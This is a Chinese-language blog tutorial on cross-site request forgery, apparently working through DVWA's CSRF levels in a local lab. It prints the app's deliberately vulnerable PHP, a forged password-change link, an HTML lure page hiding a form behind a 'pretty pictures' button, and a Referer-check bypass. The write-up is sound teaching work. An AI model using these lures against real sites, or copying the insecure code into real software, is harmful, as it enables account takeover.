

<!--more-->

### **0x00 前言**
有时候我们常常在听到这样的新闻，点了某个链接，就突然钱没了，这并不是匪夷所思，这是完全可能的事，攻击者利用的就是CSRF(Cross-site request forgery)跨站请求伪造，攻击者欺骗浏览器，让受害者以自己的名义执行攻击者想要的操作。可能你会问，我傻啊，骗子链接我可能点吗？但是如果攻击者利用社会工程学，将链接包装成美图图片等的话，你又会不会去点呢。直接我们来操作一下，看下CSRF是如何登录的。

我们可以先看下实验

攻击者诱使受害者点一下自己构建的链接，从而将密码改成自己想要设置的密码，从而登录受害者账号。

我们的正常登录流程



我们将两次相同的密码输入进去，他的密码就算改变了，之后就只能用新的密码登录


### **0x01 开始实验**
这次工具还是前几次介绍的工具，主要是利用的burp。
#### low等级
```
CSRF Source
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = mysql_real_escape_string( $pass_new ); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' ); 

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    mysql_close(); 
} 

?> 
```
在代码层面我们可以知道并没有任何的防御，我们看下截获的包


哈哈，直接get的包被明文传输，ok,直接构建链接我们来看下
192.168.20.4/DVWA-1.9/vulnerabilities/csrf/?password_new=xiaoming&password_conf=xiaoming&Change=Change#

 当然你也可以包装一下咯，学过html的我们可以构建出我们想要的页面，只需要将链接隐藏在里面就可以了
 我们看下，

```
<!DOCTYPE html>
<!--[if lt IE 7]>      <html class="no-js lt-ie9 lt-ie8 lt-ie7"> <![endif]-->
<!--[if IE 7]>         <html class="no-js lt-ie9 lt-ie8"> <![endif]-->
<!--[if IE 8]>         <html class="no-js lt-ie9"> <![endif]-->
<!--[if gt IE 8]><!--> <html class="no-js"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <title></title>
        <meta name="description" content="">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="">
    </head>
    <body>
        <form action="192.168.20.4/DVWA-1.9/vulnerabilities/csrf/?password_new=xiaoming&password_conf=xiaoming&Change=Change#">
			<input type="hidden" AUTOCOMPLETE="off" name="password_new">
			<input type="hidden" AUTOCOMPLETE="off" name="password_conf">
			<input type="hidden" value="Change" name="Change">
            <input type="submit" value="美女图片">
        </form>
        
        <script src="" async defer></script>
    </body>
</html>
```


我们把他放在本地服务器上测试，面运行起来看看效果，ok，成功跳转，成功改密。


#### medium 等级
```
CSRF Source
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Checks to see where the request came from 
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) { 
        // Get input 
        $pass_new  = $_GET[ 'password_new' ]; 
        $pass_conf = $_GET[ 'password_conf' ]; 

        // Do the passwords match? 
        if( $pass_new == $pass_conf ) { 
            // They do! 
            $pass_new = mysql_real_escape_string( $pass_new ); 
            $pass_new = md5( $pass_new ); 

            // Update the database 
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' ); 

            // Feedback for the user 
            echo "<pre>Password Changed.</pre>"; 
        } 
        else { 
            // Issue with passwords matching 
            echo "<pre>Passwords did not match.</pre>"; 
        } 
    } 
    else { 
        // Didn't come from a trusted source 
        echo "<pre>That request didn't look correct.</pre>"; 
    } 

    mysql_close(); 
} 

?> 
```
里面的函数我们可以看下
int eregi(string pattern, string string)
检查string中是否含有pattern（不区分大小写），如果有返回TRUE,反之False。
他还保留了源地址，检查http包头是否含有源地址以此来防御CSRF攻击

我们来看下正常到底发的啥包

如果我们还是用low等级构造的链接，但是失败了，到底什么原因造成的呢？
我们对比一下我们失败的包和成功的包

失败包


成功包


我们发现成功的包中有referer(来源地址)，而失败的包中没有referer,然道是在代码中校验了，带着好奇心我们进入将发送改密失败的包改了几次，第一次将成功的包referer中的数据全都复制到失败包中，成功，我们继续实验，发现原来只要包中包含自己发送者的ip，就能成功改密。


这样我们就知道怎么构造链接了，只需要让发送的包含有本地ip就可以，我们可以这么做，在WWW目录下新建一个本地ip的文件夹，然后将原来low等级的网页放进去。


然后我们试一下是不是能改密码，成功改密。



#### hign 等级

```
CSRF Source
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = mysql_real_escape_string( $pass_new ); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' ); 

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    mysql_close(); 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```
这边加了Generate Anti-CSRF token，也就是说每次我们用户访问改密请求时，需要提交token参数，而服务器在收到请求时，会优先检查token,只有token正确，才会处理客户端的请求

我们看下high等级截获的正常的包

加了user_token,随机字符串能有效CSRF攻击，

在源代码中我们可以清晰的看见这个user_token


绕过就要获取对方页面的token，怎么办，现在浏览器都是不允许跨域请求的，也就是说域名A（攻击者）是不允许获取域名B（受害者）页面中的内容的。那我们转念一想，能不能B（受害者）自己将自己页面的token值乖乖送到A(攻击者)手上呢。
要乖乖送到手上，如果有存储型xss漏洞就好了啊，这样我们只要注入页面中，只要等B（受害者）上钩就可以了，果不其然，我们发现现成的存储型Xss漏洞
```
注入 
```



想吐槽下这个程序网站，明明存在xss漏洞，怎么都不弹窗存在，关机之后，开机之后又可以，真不知道是什么原因，然后就是反复出现这个问题，网上其他同学的方法都试了，构造不成，我知道肯定是我的问题，那么我们就抓包实战吧，盗取cookie，看能不能改下密码



果然成功


这次的构造就算失败了，xss没法利用，我看下次这网站好了没。

#### impossible 等级
还是老样子，先看下源码
```

CSRF Source
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $pass_curr = $_GET[ 'password_current' ]; 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Sanitise current password input 
    $pass_curr = stripslashes( $pass_curr ); 
    $pass_curr = mysql_real_escape_string( $pass_curr ); 
    $pass_curr = md5( $pass_curr ); 

    // Check that the current password is correct 
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR ); 
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR ); 
    $data->execute(); 

    // Do both new passwords match and does the current password match the user? 
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) { 
        // It does! 
        $pass_new = stripslashes( $pass_new ); 
        $pass_new = mysql_real_escape_string( $pass_new ); 
        $pass_new = md5( $pass_new ); 

        // Update database with new password 
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' ); 
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR ); 
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR ); 
        $data->execute(); 

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match or current password incorrect.</pre>"; 
    } 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```


这次我们试下之前的方法，都失败了，原因是不知道B(受害者)之前的密码，没法改

我们可以结合图片看下源码，不仅需要输入原来的密码，而且加入了Anti-CSRF token 来防止CSRF攻击，有效防止了跨站请求攻击。
防御的话我们还可以加入验证码这种防御措施，这样也可以有效防止CSRF攻击

### **0x03 总结**
我们这次介绍了CSRF攻击，知道了他在我们网页中还是危害很大的。所以千万别点击陌生人的链接哦。


